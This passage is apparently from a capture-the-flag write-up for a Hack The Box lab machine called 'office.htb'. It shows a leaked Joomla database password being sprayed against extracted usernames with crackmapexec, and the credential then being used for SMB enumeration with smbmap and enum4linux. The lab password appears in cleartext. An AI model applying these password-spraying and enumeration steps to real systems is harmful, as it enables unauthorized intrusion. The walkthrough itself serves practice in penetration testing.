 - Extract the usernames:

![image21](../resources/87f609fd2f2443f9917c9fbf046e2c78.png)

- Check all the users against the password found for the Joomla SQL DB:

```bash
crackmapexec smb 10.129.23.162 -u users.txt -p "H0lOgrams4reTakIng0Ver754\!"

```

![image22](../resources/103608f7252c4e15ba2cc3090fa1022d.png)

We find a valid user.

```bash
smbmap -H office.htb -u <user_found> -p "H0lOgrams4reTakIng0Ver754\!"

```

![image23](../resources/a1f2495cca8546698dcf630ade8f85e5.png)

```bash
enum4linux -u "<user_found>" -p "H0lOgrams4reTakIng0Ver754\!" -a office.htb

```
(The **-a** IP/host, needs to come at the end)
